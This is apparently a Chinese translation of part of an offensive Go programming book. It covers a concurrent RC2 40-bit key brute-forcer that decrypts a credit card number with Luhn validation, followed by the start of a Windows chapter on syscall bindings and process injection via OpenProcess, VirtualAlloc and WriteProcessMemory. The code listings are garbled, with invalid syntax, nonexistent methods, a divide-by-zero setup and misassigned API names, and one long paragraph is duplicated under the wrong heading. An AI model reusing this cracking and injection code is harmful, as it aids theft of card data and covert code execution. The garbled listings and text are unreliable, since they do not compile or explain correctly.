`RC2` 是一种由 Ronest 在 1987 年创建的对称块加密。由于政府的建议，设计者使用了 40 位密钥，这使得该加密弱到政府可以窥探。当然，在 80 年代，暴力破解密钥需要巨大的计算能力，只有资金充足的国家或特殊组织才能在合理时间内解密。推到 30 年后；今天，一台家用电脑就可以做到。

## 开始

在进入代码之前，让我们先设定背景。首先，`Go` 标准库或扩展库都没有提供供公开使用的 `RC2` 包。然而，`Go` 内部有一个针对它的包。你不能在外部程序中直接导入内部包。

其次，为了保持简单，你对数据做了一些通常不会想做的假设。具体来说，你假设明文数据的长度是 `RC2` 块大小（8 字节）的倍数，以避免逻辑与处理 `PKCS #5` 填充冲突。处理填充与你之前在本章中处理 `AES` 时所做的相似（参见列表 11-4），但你需要更仔细地验证内容以确保你所处理数据的完整性。你还假设你的密文是一个加密的卡号。你通过验证生成的明文数据来检查可能的密钥。在这种情况下，验证数据意味着确保文本是数字并对其进行 `Luhn` 检查。

接下来，你假设你已经确定——可能通过过滤文件系统或源代码——数据是使用 40 位密钥在 `ECB` 模式且无初始化向量的情况下加密的。`RC2` 支持变长密钥，并且由于它是块加密，可以以不同的模式运行。在 `ECB` 模式下（这是最简单的模式），数据块是与其他块独立进行加密。这将使得你的逻辑变得更加直观。最后，尽管在非并发实现中你可以破解密钥，但如果你有选择的话，并发实现的性能将会优越得多。我们不会通过迭代来构建这个东西（即先展示一个非并发版本，再展示一个并发版本），而是直接构建并发版本。

现在你将安装几个前提条件。首先，从 `https://github.com/golang/crypto/blob/master/pkcs12/internal/rc2/rc2.go` 获取官方的 `RC2` 实现。你需要将它安装在本地工作区中，以便将其导入你的暴力破解器（`br-forcer`）。正如我们之前提到的，该包是一个内部包，意味着默认情况下，外部包无法导入和使用它。这有点“取巧（`hacky`）”，但它可以避免你去使用第三方实现——或者（不而栗）——编写自己的 `RC2` 加密代码。如果你将其拷贝到工作区中，导出的函数和类型就会成为你开发包的一部分，从而变得可访问。

我们还来安装一个用于执行 `Luhn` 检查的包：

```
$ go get github.com/joeljunstrom/go-luhn
```

`Luhn` 检查通过对信用卡号或其他识别数据计算校验和，以确定它们是否有效。你将使用现有的包来实现此功能。它有完善的文档，可以避免你重复造轮子。

现在你可以编写代码了。你需要遍历整个密钥空间（40 位）的每一种组合，用每个密钥解密你的密文，然后通过确保结果只包含数字字符并通过 `Luhn` 检查来验证你的结果。你将使用生产者/消费者模型来管理工作——生产者将密钥推送到通道（`channel`），消费者将从通道中读取密钥并执行相应的操作。工作本身是一个单一的密钥值。当你找到一个产生经过验证的明文的密钥时（这意味着你找到了信用卡号），你将向每个 `goroutine`（协程）发送信号停止工作。

这个问题中有趣的挑战之一是如何遍历密钥空间。在我们的解决方案中，你使用 `for` 循环来遍历它，遍历表示为 `uint64` 值的密钥空间。你会发现挑战在于，`uint64` 在内存中占据了 64 位空间。因此，从 `uint64` 转换为 40 位（5 字节）的 [byte] `RC2` 要求你裁剪掉 24 位（3 字节）不必要的数据。希望在你查看代码后，这个过程会变得清晰。我们将缓慢进行，拆分程序的各个部分并逐一攻克。

- 列表 11-8 开始了程序。

```go
import (
    "crypto/cipher"
    "encoding/binary"
    "encoding/hex"
    "fmt"
    "log"
    "regexp"
    "sync"
)

1 luhn github.com/joeljstrom/go-luhn
2 "github.com/bhg/ch-11/rc2-brute/rc2"
```

```go
var numeric = regexp.MustCompile(`\d{8}$`)

type CryptoData struct {
  block cipher.Block
  key [byte]
}
```

列表 11-8：导入 `RC2` 暴力破解类型 (`/ch-11/rc2-brute/main.go`)

我们在这里包含了导入语句，以引起人们对包含第三方 `go-luhn` 包 ❶ 的注意，以及你从 `Go` 内部仓库克隆的 `rc2` 包 ❷。你还编译了一个正则表达式 ❸，你将用它来检查生成的明文块是否为 8 字节的数字数据。

注意，你检查的是 8 字节的数据而不是 16 字节（后者是你信用卡号的长度）。你检查 8 字节是因为那是 `RC2` 块的长度。你将按块解密密文，因此你可以检查解密的第一个块以看它是否为数字。如果块的 8 字节不全是数字，你可以放心地假设你处理的不是信用卡号，并完全跳过对第二个密文块的解密。这种微小的性能提升将显著缩短执行百万次的时间。

最后，你定义了一个名为 `CryptoData` 的类型 ➃，你将在其中存储密钥和一个 `cipher.Block`。你将使用此结构体来定义工作单元，生产者将创建它们，消费者将对其操作。

## 生成工作

让我们生产者函数（列表 11-9）。你将此函数放在上一个代码列表中的类型定义之后。

```go
func generate(start, stop uint64, out chan <- *CryptoData,
  done <- chan struct { wg *sync.WaitGroup }) {
  wg.Add(1)

  go func() {
    defer wg.Done()

    var (
        block cipher.Block
        err error
        key []byte
        data *CryptoData
    )

    for i := start; i <= stop; i++ {
        key = make([]byte, 8)
        select {
        tcase <- done:
            return
        default:
            binary.BigEndian.PutUint64(key, i)
            if block, err = rc2.New(key[3:], 40); err != nil {
                log.Fatal(err)
            }
            data = &CryptoData{
                block: block,
                key: key[3:],
            }
            out <- data
        }
    }
  }()
}
```

列表 11-9：`RC2` 生产者函数 (`/ch-11/rc2-brute/main.go`)

你的生产者名为 `generate` ① 它接收两个 `uint64` 值来定义密钥空间。它还接收两个通道：一个用于推送 `*CryptoData`，另一个用于信号的通用结构体。对于每个并发生产者，你执行 `wg.Add(1)` 告诉 `WaitGroup` 你已开始。在 `goroutine` 中，你使用 `defer wg.Done()` ④ 来通知它已退出。

在你的循环中，你包含了一个 `select` 语句 ⑥，它看起来有点奇怪，因为它操作的是通道数据。你用它来检查 `done` 通道是否关闭 ⑦。如果通道关闭，你使用 `return` 语句退出 `goroutine`。当 `done` 通道未关闭时，你使用 `default` 情况创建工作所需的加密实例。具体而言，你调用 `binary.BigEndian.PutUint64(key, i)` ⑨ 将 `uint64` 值（当前密钥）写入 `[]byte`。

虽然我们之前没有显式提到，但将 `key` 初始化为 8 字节切片是因为为什么你定义的切片只有 5 字节？嗯，由于 `binary.BigEndian.PutUint64` 接收 `uint64` 值，它需要一个长度为 8 字节的切片，否则会抛出索引越界错误。它无法将 8 字节的值放入 5 字节的切片中。因此，你给它一个 8 字节的切片。注意在代码的剩余部分，你只使用了切片的最后 5 个字节；如果包含前 3 个字节，将会破坏加密函数的纯洁性。这就是为什么你最初调用 `rc2.New(key[3:], 40)` 来创建加密器；这样做删除了 3 个无关字节，并传入了密钥的长度（位为单位）：40。你使用 `for` 循环 ⑤ 来遍历密钥空间。

通道 ⑩。

生产者代码到此结束。请注意，在这一节中你只是启动了所需的关键密钥数据。在函数的任何地方，你都没有实际尝试解密密文。你将在消费者函数中执行这项工作。

# 执行工作和解密数据

现在让我们来回顾消费者函数（列表 11-10）。再次，你将此函数添加到与之前代码相同的文件中。

```go
func decrypt(ciphertext []byte, in <- chan *CryptoData,
done chan struct { wg *sync.WaitGroup }) {
    size := rc2.BlockSize
    plaintext := make([]byte, len(ciphertext))
    wg.Add(1)

    go func() {
        defer wg.Done()

        for data := range in {
            select {
            case <-done:
                return
            default:
                if data.block.Match(plaintext[:size], ciphertext[:size]) {
                    if numeric.Valid(plaintext[:size]) &&
                        fmt.Printf("Card [%s] found using key [%x]\n",
                        plaintext, data.key) {
                        close(done)
                        return
                    }
                }
            }
        }
    }()
}
```

列表 11-10: `RC2` 消费者函数 (`/ch-11/rc2-brute/main.go`)

你的消费者函数名为 `decrypt()` ①，接受多个参数。它接收你想要解密的密文。它还接受两个通道：一个只读的 `*CryptoData` 通道，你将其用作工作队列，以及一个名为 `*done*` 的通道，你用它来发送和接收显式取消信号。最后，它还接受一个名为 `*wg*` 的 `*sync.WaitGroup`，你用它来管理消费者工人，就像你的生产者实现一样。你通过调用 `wg.Add(1)` ② 告诉 `WaitGroup` 你正在启动一个工人。这样，你就能跟踪并管理所有运行中的消费者。

接下来，在 `goroutine` 内部，你调用了 `defer wg.Done()` ③，这样当 `goroutine` 函数结束时，你将更新 `WaitGroup` 状态，将运行的工作线程数量减一。这种 `WaitGroup` 操作对于你跨任意数量的工作线程同步程序的执行执行是必要的。你稍后将在 `main()` 函数中使用 `WaitGroup` 来等待 `goroutine` 完成。

消费者使用 `for` 循环 ④ 从通道中反复读取 `CryptoData` 结构体。循环在通道关闭时停止。记住，生产者会填充此通道。正如你很快看到的，在生产者迭代完它们的整个密钥空间子集并将相关的加密数据推送到工作通道后，该通道将会关闭。因此，你的消费者将一直循环直到生产者完成生产任务。

正如你在生产者代码中所做的那样，你在 `for` 循环中使用 `select` 语句来检查 `*done*` 通道是否已关闭 ⑤，如果已关闭，你将显式通知消费者停止额外工作。当识别出有效的信用卡号时，工人将关闭通道，我们稍后会讨论这一点。你的 `default` 情况 ⑥ 执行了加密的重体力工作。它解密密文的第一块（8 字节） ⑦，检查生成的明文是否为 8 字节的数值值 ⑧。如果是，你就获得了一个潜在的卡号，并继续解密第二块密文 ⑨。你可以通过访问通道中读取的 `CryptoData` 工作对象中的 `cipher.Block` 字段来调用这些解密函数。记得生产者是使用从密钥空间获取的唯一键值来实例化结构体的。

最后，你根据 `Luhn` 算法对整个明文进行验证，并验证第二块明文是否为 8 字节的数值值 ⑩。如果这些检查通过，你就可以相当确定找到了一个有效的信用卡号。将卡号和密钥显示到标准输出，并调用 `close(done)` 来通知其他 `goroutine` 你已经找到了你想要的内容。

## 编写主函数

此时，你已经有了生产者和消费者函数，它们都已具备并发执行的能力。现在，让我们在 `main()` 函数中将它们整合在一起（列表 11-11），它将出现在与之前的列表相同的源文件中。

```go
func main() {
    var (
        err error
        ciphertext []byte
    )
    if ciphertext, err := hex.DecodeString("0986f2cc1bdc5c2e25d0a136fa1a6b"); err != nil {
        log.Fatal(err)
    }

    var prodWg, consWg sync.WaitGroup
    var min, max, prods = uint64(0x00000000), uint64(0xffffffffff), uint64(0)
    var step = (max - min) / prods

    done := make(chan struct{})
    work := make(chan *CryptoData, 100)

    if (step * prods) < max {
        step += prods
    }

    var start, end = min, min + step

    log.Println("Starting producers...")
    for i := uint64(0); i < prods; i++ {
        if end > max {
            end = max
        }
        generate(start, end, work, done, &prodWg)
        start += step
    }

    log.Println("Producers started!")

    log.Println("Starting consumers...")
    for i := 0; i < 30; i++ {
        decrypt(ciphertext, work, done, &consWg)
    }

    log.Println("Consumers started!")
    log.Println("Now we wait...")

    prodWg.Wait()
    close(work)
    consWg.Wait()

    log.Println("Brute-force complete")
}
```


### 列表 11-11: RC2 消费者函数 (/ch-11/rc2-brute/main.go)

你的消费者函数名为 `decrypt()`，接受多个参数。它接收你想要解密的密文。它还接受两个通道：一个只读的 `*CryptoData` 通道，你将其用作工作队列，以及一个名为 `done` 的通道，你用它来发送和接收显式取消信号。最后，它还接受一个名为 `wg` 的 `*sync.WaitGroup`，你用它来管理消费者工人，就像你的生产者实现一样。你通过调用 `wg.Add(1)` 告诉 `WaitGroup` 你正在启动一个工人。这样，你就能跟踪并管理所有运行中的消费者。

接下来，在 goroutine 内部，你调用了 `defer wg.Done()`，这样当 goroutine 函数结束时，你将更新 `WaitGroup` 状态，将运行的工作线程数量减一。这种 `WaitGroup` 操作对于你跨任意数量的工作线程同步程序的执行执行是必要的。你稍后将在 `main()` 函数中使用 `WaitGroup` 来等待 goroutine 完成。

消费者使用 `for` 循环从通道中反复读取 `CryptoData` 结构体。循环在通道关闭时停止。记住，生产者会填充此通道。正如你很快看到的，在生产者迭代完它们的整个密钥空间子集并将相关的加密数据推送到工作通道后，该通道将会关闭。因此，你的消费者将一直循环直到生产者完成生产任务。

正如你在生产者代码中所做的那样，你在 `for` 循环中使用 `select` 语句来检查 `done` 通道是否已关闭，如果已关闭，你将显式通知消费者停止额外工作。当识别出有效的信用卡号时，工人将关闭通道，我们稍后会讨论这一点。你的 `default` 情况执行了加密的重体力工作。它解密密文的第一块（8 字节），检查生成的明文是否为 8 字节的数值值。如果是，你就获得了一个潜在的卡号，并继续解密第二块密文。你可以通过访问通道中读取的 `CryptoData` 工作对象中的 `cipher.Block` 字段来调用这些解密函数。记得生产者是使用从密钥空间获取的唯一键值来实例化结构体的。

最后，你根据 Luhn 算法对整个明文进行验证，并验证第二块明文是否为 8 字节的数值值。如果这些检查通过，你就可以相当确定找到了一个有效的信用卡号。将卡号和密钥显示到标准输出，并调用 `close(done)` 来通知其他 goroutine 你已经找到了你想要的内容。

由于计算偏移量的数学方法一点也不精确，这可能会导致你的代码搜索超出最大密钥空间的末尾。然而，你

完成后，你显式地关闭工作通道，这样消费者在尝试从中读取时就不会持续死锁。最后，你通过调用 `consWg.Wait()` 再次阻塞 `main()`，为 `WaitGroup` 中的消费者提供足够的时间完成工作通道中的任何剩余工作。

## 运行程序

你已经完成了程序！如果你运行它，应该会看到以下输出：

```
$ go run main.go

2020/07/12 14:27:47 Starting producers...

2020/07/12 14:27:47 Producers started!

2020/07/12 14:27:47 Starting consumers...

2020/07/12 14:27:47 Consumers started!

2020/07/12 14:27:47 Now we wait...

2020/07/12 14:27:48 Card [4532651325506680] found using key [e612d0bbb6]

2020/07/12 14:27:48 Brute-force complete
```

程序启动生产者和消费者，然后等待它们执行。当找到卡片时，程序会显示明文卡片和用于解密该卡片的密钥。由于我们假设这是适用于所有卡片的魔术密钥，我们提前中断了执行，并通过画一幅自画像来庆祝我们的成功（未显示）。

当然，取决于密钥的值，在家庭计算机上进行暴力破解可能花费大量时间——想想几天甚至几周。对于之前的示例运行，我们缩小了密钥空间以更快地找到密钥。然而，在 2016 年的 MacBook Pro 上完全耗尽密钥空间大约需要七天。对于一个在笔记本电脑上运行的简单快速的解决方案来说，这并不糟糕。

## 总结

密码学是安全从业人员的一个重要课题，尽管学习曲线可能很陡峭。本章涵盖了对称和非对称加密、哈希、使用 `bcrypt` 处理密码、消息身份认证、双向认证以及 `RC2` 的暴力破解。在下一章中，我们将进入攻击 Microsoft Windows 的细节。

# 12
WINDOWS 系统交互
与分析


开发 Microsoft Windows 攻击的方法有无数——多到在本章中无法全部涵盖。我们并不打算讨论所有方法，而是介绍并研究一些可以帮助你攻击 Windows 的技术，无论是在最初还是在你的后渗透冒险中。

在讨论了 Microsoft API 文档和一些安全考量之后，我们将涵盖三个主题。首先，我们将使用 Go 的核心 `syscall` 包，通过执行进程注入与各种系统级 Windows API 交互。其次，我们将探索 Go 用于 Windows 移植可执行文件 (PE) 格式的核心包，并编写一个 PE 文件解析器。第三，我们将讨论将 C 代码与原生 Go 代码结合使用的技术。你需要了解这些应用技术来构建一种新的 Windows 攻击。

## Windows API 的
`OPENPROCESS()` 函数

为了攻击 Windows，你需要理解 Windows API。让我们通过检查 `OpenProcess()` 函数来探索 Windows API 文档，该函数用于获取远程进程的句柄。你可以在 [https://docs.microsoft.com/en-us/windows/desktop/processesthreadsapi/nf-openprocess/](https://docs.microsoft.com/en-us/windows/desktop/processesthreadsapi/nf-openprocess/) 找到 `OpenProcess()` 文档。图 12-1 显示了对象的属性详情。

## `OpenProcess` 函数

12/04/2018 • 阅读需2 分钟

打开已存在的本地进程对象

## 语法

```cpp
HANDLE OpenProcess(

  DWORD dwDesiredAccess,

  BOOL bInheritHandle,

  DWORD dwProcessId

);
```



在这个特定实例中，我们可以看到该对象看起来非常像 Go 中的结构体类型（struct type）。然而，C++ 结构体字段并不一定与 Go 类型对应，且 Microsoft 数据类型也不总是与 Go 数据类型匹配。

Windows 数据类型定义参考位于 [https://docs.microsoft.com/en-us/windows/desktop/WinProg/windows-data-types/](https://docs.microsoft.com/en-us/windows/desktop/WinProg/windows-data-types/)，在调和 Windows 数据类型与 Go 对应的数据类型时将非常有帮助。表 12-1 涵盖了我们在本章后面的进程注入示例将使用的类型转换。

# 表 12-1：Windows 数据类型到 Go 数据类型的映射

| Windows data Type | Go data type |
|---|---|
| BOOLEAN | byte |
| BOOL | int32 |
| BYTE | byte |
| DWORD | uint32 |
| DWORD32 | uint32 |
| DWORD64 | uint64 |
| WORD | uint16 |
| HANDLE | uintptr (无符号指针) |
| LPVOID | uintptr |
| SIZE_T | uintptr |
| LPCVOID | uintptr |
| HMODULE | uintptr |
| LPCSTR | uintptr |
| LPDWORD | uintptr |

Go 文档将 `uintptr` 数据类型定义为“足够大容纳任何指针位模式的整数类型”。这是一个特殊的数据类型，正如我们在稍后第 266 页的“`unsafe.Pointer` 和 `uintptr` 类型”中讨论 Go 的 `unsafe` 包和类型转换时将会看到的。现在，让我们完成 Windows API 文档的浏览。

接下来，你应该查看对象的参数；文档的 `Parameters` 部分提供了详细信息。例如，第一个参数 `DesiredAccess` 提供了关于进程句柄应拥有的访问级别的具体说明。之后，`Return Value` 部分定义了系统调用成功和失败的预期值（见图 12-2）。

返回值
- 如果函数执行成功，返回值为指向指定进程的打开句柄。
- 如果函数失败，返回值为 NULL。要获取扩展错误信息，请调用 `GetLastError`。

图 12-2：返回值的定义

在在我们接下来的示例代码中使用 `syscall` 包时，我们将利用 `GetLastError` 错误消息，尽管这会稍微偏离标准的错误处理（如 `if err != nil` 语法）。

我们 Windows API 的最后一部分 `Requirements`（要求）提供了重要的详细信息，如图 12-3 所示。换句话说，在不知道合适的 DLL 模块的情况下，我们无法调用该 API。随着我们进入接下来的示例，这将变得更加清晰。

# Requirements

| | |
|---|---|
| 最支持的客户端 | Windows |
| 最支持的服务器 | Windows Server 2003 |
| 目标平台 | Windows |
| 头文件 | processthreadsapi.h (包含 Windows Server 2003, Windows Vista, Windows 7, Windows Server 2008, Windows.h) |
| 库 | Kernel32.lib |
| DLL | Kernel32.dll |

图 12-3：`Requirements` 部分定义了调用 API 所需的库。

# `Unsafe.Pointer` 和 `uintptr` 类型

在处理 Go `syscall` 包时，我们肯定需要绕过 Go 安全保护。这是因为我们需要，例如建立共享内存并在 Go 和 C 之间进行类型转换。本节提供了操作内存所需的基础知识，但你应该进一步探索 Go 的官方文档。

我们将通过 Go 的 `unsafe` 包（第 9 章提到）来绕过安全措施，该包包含了某些操作。Go 有四条基本指南可以帮助我们：

- 任何类型的指针值都可以转换为 `unsafePointer`。
- `unsafe.Pointer` 可以转换为任何类型的指针值。
- `uintptr` 可以转换为 `unsafe.Pointer`。
- `unsafe.Pointer` 可以转换为 `uintptr`。

> 警告
> 请注意，导入 `unsafe` 包的包可能不可移植，尽管 Go 通常会确保 Go 1 的兼容性，但使用 `unsafe` 包会破坏所有这些保证。

`uintptr` 类型允许在原生安全类型之间执行类型转换或算术运算，其他其他用途。尽管 `uintptr` 是一种整数类型，但它被广泛用于表示内存地址。在使用类型安全指针时，Go 原生垃圾回收会维护相关的引用。

然而，当引入 `unsafe.Pointer` 时情况发生了变化。记住 `uintptr` 本质上只是无符号整数。如果使用 `unsafe.Pointer` 创建指针值并赋值给 `uintptr`，无法保证 Go 的垃圾回收会维护所引用内存位置值的完整性。图 12-4 有助于进一步描述此问题。



图 12-4：使用 `uintptr` 和 `unsafe.Pointer` 时可能危险的危险指针

图像的上半部分描述了 `uintptr`，它包含一个指向 Go 类型安全指针的引用值。因此，它在运行时会保持该引用，并受到严格的垃圾回收管理。图像的下半部分展示了 `uintptr` 尽管引用了 Go 的 `unsafe.Pointer` 类型，但是可以被垃圾回收的，因为 Go 不保留也不管理指向任意数据类型的指针。**列表 12-1** 展示了这个问题。

```go
func state() {

    var onload = createEvents("onload") 

    var receive = createEvents("receive") 

    var success = createEvents("success") 

    mapEvents := make(map[string]interface{})

    mapEvents["messageOnload"] = unsafe.Pointer(onload)

    mapEvents["messageReceive"] = unsafe.Pointer(receive) 

    mapEvents["messageSuccess"] = uintptr(unsafe.Pointer(success)) 

    // 这行是安全的 - 保留原始值

    fmt.Println(*string)(mapEvents["messageReceive"].(unsafe.Pointer)) 

    // 这行是不安全的 - 原始值可能被垃圾回收

    fmt.Println(*string)(unsafe.Pointer(uintptr(mapEvents["messageSuccess"].(uintptr))))

}

func createEvents(s string) *string {

	return &s

}
```

列表 12-1：使用 `unsafe.Pointer` 安全和不安全地使用 `uintptr`

这段代码列表可能是某人尝试创建一个状态机，例如。它有三个变量，通过调用 `createEvents()` 函数为它们分配了各自的指针值：`onload`、`receive` 和 `success`。我们创建了一个包含 `string` 类型键和 `interface{}` 类型值的映射（map）。我们使用 `interface{}` 是因为它可以接收不同的类型。在这种情况下，我们将用它来接收 `unsafe.Pointer` 和 `uintptr` 的值。

到此时，你很可能已经发现了那些危险的代码。虽然 `mapEvents["messageReceive"]` 条目的类型是 `unsafe.Pointer`，但它仍然保持对变量 `receive` 的原始引用，并将提供与最初一致的输出。相反，`mapEvents["messageSuccess"]` 条目的类型是 `uintptr`。这意味着一旦引用 `success` 变量的 `unsafe.Pointer` 值被赋值给 `uintptr` 类型，变量 `success` 就可以被回收。再次，`uintptr` 只是一个持有内存地址字面整数的类型，而不是指针的引用。因此，无法保证产生预期的输出，因为该值不再存在。

有结合 `unsafe.Pointer` 使用 `uintptr` 的安全方法吗？我们可以利用 `runtime.Keepalive` 来实现，它可以防止变量被垃圾回收。让我们通过修改之前的代码块（列表 12-2）来观察这一点。

```go
func state() {

    var onload = createEvents("onload")

    var receive = createEvents("receive")

    var success = createEvents("success") 

    mapEvents := make(map[string]interface{})

    mapEvents["messageOnload"] = unsafe.Pointer(onload)

    mapEvents["messageReceive"] = unsafe.Pointer(receive)

    mapEvents["messageSuccess"] = uintptr(unsafe.Pointer(success)) 

    // 这行是不安全的 - 原始值

    fmt.Printf("%s", (*string)(mapEvents["messageReceive"].(unsafe.Pointer)))

    // 这行是不安全的 - 原始值可能被垃圾回收

    fmt.Println("%s", (*string)(unsafe.Pointer(uintptr(mapEvents["messageSuccess"].(uintptr)))))

    runtime.KeepAlive(success) 

}

func createEvents(s string) *string {

    return &s

}
```


# 列表 12-2：使用 runtime.Keepalive 配合 unsafe.Pointer 使用 uintptr

说真的，我们只添加了一行代码：`runtime.Keepalive(success)`③！这行代码确保了变量在显式释放之前不会被垃圾回收。尽管 `success` 变量以 `uintptr`② 存储，但它不会被回收。请注意，`syscall` 包广泛使用了 `uintptr`，尽管某些函数如 `syscall()` 9 是不类型安全的。此外，`uintptr` 只是一个持有内存地址字面整数的类型，而不是指针的引用。

# 使用 SYSCALL 进行注入

通常，我们需要将我们的代码注入进程。这是因为我们想要通过 `syscall()` 获取远程访问。注入机制也将帮助你执行诸如加载内存中恶意软件等任务。在这里，我们使用 `WriteProcessMemory()` 函数来注入内存。图 12-5 描述了这些事件。

| 源进程 | 目标进程 |
| :--- | :--- |
|  |  |
|  |  |
|  |  |

图 12-5：基础注入

在第 1 步，我们使用 `OpenProcess()` 函数获取句柄，这是为了访问远程进程。一旦获得了必要的句柄，我们在第 2 步中使用 `VirtualAlloc()` 函数在远程进程中分配内存。在第 3 步，我们使用 `WriteProcessMemory()` 函数将我们的代码写入到内存中。最后，在第 4 步，我们使用 `CreateThread()` 函数作为调用原生导出函数（如 `LoadLibrary()`）的手段。这四个步骤提供了一个注入示例。

# 定义 Windows DLL 并赋值

第一步是创建列表 12-3 中的 `winmods` 文件。该文件包含了比示例中更多的 DLL 引用，但我们会记录它们，以便在更高级的代码中使用。

```go
import "syscall"

var (
	ModKernel32 = syscall.LazyDLL("kernel32.dll")

	modUser32 = syscall.LazyDLL("user32.dll")

	modAdvapi32 = syscall.LazyDLL("Advapi32.dll")

	ProcOpenProcess32 = modAdvapi32.NewProc("GetProcessToken")

	ProcLookupPrivilege = modAdvapi32.NewProc("LookupPrivilegeValueW")

	ProcLookupPrivilegeNameW = modAdvapi32.NewProc("LookupPrivilegeNameW")

	ProcAdjustTokenPrileges = modAdvapi32.NewProc("AdjustTokenPrivileges")

	ProcGetAsyncKeyState = modUser32.NewProc("GetAsyncKeyState")

	ProcVirtualAlloc = modKernel32.NewProc("VirtualAlloc")

	ProcCreateThread = modKernel32.NewProc("CreateThread")

	ProcWaitForSingleObject = modKernel32.NewProc("WaitForSingleObject")

	ProcVirtualAllocEx = modKernel32.NewProc("VirtualAllocEx")

	ProcVirtualFreeEx = modKernel32.NewProc("VirtualFreeEx")

	ProcCreateRemoteThread = modKernel32.NewProc("CreateRemoteThread")

	ProcGetLastError = modKernel32.NewProc("GetLastError")

	ProcWriteProcessMemory = modKernel32.NewProc("WriteProcessMemory")

	ProcOpenProcess = modKernel32.NewProc("OpenProcess")

	ProcGetCurrentProcess = modKernel32.NewProc("GetCurrentProcess")

	ProcIsDebuggerPresent = modKernel32.NewProc("IsDebuggerPresent")

	ProcGetProcAddress = modKernel32.NewProc("GetProcAddress")

	ProcCloseHandle = modKernel32.NewProc("CloseHandle")

	ProcGetExitCodeThread = modKernel32.NewProc("GetExitCodeThread")
)
```

使用 `LazyDLL()` 方法来加载 Kernel 32 DLL

- Kernel32 管理了 Windows 内部进程的许多功能，例如寻址、处理、内存分配等。（值得注意的是，从 Go 1.12.2 版本开始，你可以使用两个新函数来更好地加载 DLL 并防止 DLL 劫持攻击：`LoadLibraryEx()` 和 `NewLazySystemDLL()`）

在与 DLL 交互之前，我们必须在代码中建立一个可以在代码中使用的变量。我们通过对每个需要使用的 API 调用 `module.NewProc` 来实现这一点。在步骤 2 中，我们再次调用它 `OpenProcess()` 并将其赋值给导出的变量 `ProcOpenProcess`。`OpenProcess()` 的使用是任意的，其目的是演示如何将任何导出的 Windows DLL 函数分配给具有描述性的变量。

# 使用 OpenProcess Windows API 获取进程令牌（Process Token）

接下来，我们来构建 `ProcessHandle()` 函数，我们将用它来获取进程句柄令牌。在代码中，我们可能会交叉使用 `token` 和 `handle` 这两个词，但请注意 Windows 系统中的每个进程都有一个唯一的进程令牌。这为实施相关的安全模型提供了手段，例如*强制完整性控制*（Mandatory Integrity Control），这是一个复杂的安全模型（值得研究，以便更熟悉进程级机制）。安全模型由进程级权限和特权等项目组成，并规定了非特权进程和提升进程如何相互作用。

首先，让我们看一眼 Windows API 文档中定义的 C++ `OpenProcess()` 数据结构（列表 12-4）。我们将定义这个对象，就像我们打算从原生 Windows C++ 代码中调用它一样。然而，我们并不会这样做，因为我们要定义的这个对象将用于与 Go 的 `syscall` 包配合。因此，我们需要将此对象转换为标准的 Go 数据类型。

```c
HANDLE OpenProcess(
DWORD dwDesiredAccess,
BOOL bInheritHandle,
DWORD dwProcessId
);
```

列表 12-4: 任意的 Windows C++ 对象和数据类型

第一个必要任务是将 `DWORD` 翻译为 Go 维护的可用类型。`DWORD` 由微软定义为 32 位无符号整数，它对应于 Go 的 `uint32` 类型。`DWORD` 值表示它必须包含 `dwDesiredAccess`，或者如文档所述的“一个或多个进程访问权限”。进程访问权限定义了我们在拥有有效进程令牌时想要执行的操作。

我们想要声明各种进程访问权限。由于这些值不会改变，我们将这些相关值放在一个 Go 常量文件中，如列表 12-5 所示。列表中的每一行都定义了一个进程访问权限。该列表包含了几乎所有可用的进程访问权限，但我们将只使用获取进程句柄所需的那些。

```go
const (
// docs.microsoft.com/en-us/windows/desktop/ProcThread/process-security-and-access-rights
PROCESS_CREATE_PROCESS = 0x0008
PROCESS_CREATE_THREAD = 0x0002
PROCESS_DUP_HANDLE = 0x0040
PROCESS_QUERY_INFORMATION = 0x0400
PROCESS_QUERY_LIMITED_INFORMATION = 0x10000
PROCESS_SET_INFORMATION = 0x0200
PROCESS_SET_QUOTA = 0x0100
PROCESS_SUSPEND_RESUME = 0x0800
PROCESS_TERMINATE = 0x0001
PROCESS_VM_OPERATION = 0x0008
PROCESS_VM_READ = 0x0010
PROCESS_VM_WRITE = 0x0020
PROCESS_ALL_ACCESS = 0x0010FFF
)
```

列表 12-5: 声明进程访问权限的常量 (`/ch-12/procinjector/winsys/constants.go`)

我们在列表 12-5 中定义的所有进程访问权限都与其各自的十六进制值对应，这是它们在赋值给 Go 变量时必须所需的格式。

在查看列表 12-6 之前，我们想要描述的一个问题是：后续大多数进程注入函数（不仅仅是 `OpenProcess()`）都会消耗一个 `Inject` 类型的自定义对象，并返回一个 `error` 类型的值。`Inject` 结构体（列表 12-6）将包含各种值，这些值将通过 `syscall` 提供给相关的 Windows 函数。

```go
type Inject struct {
	Pid uint32

	DllPath string

	DLLSize uint32

	Privilege string

	RemoteProcHandle uintptr

	Lpaddr uintptr

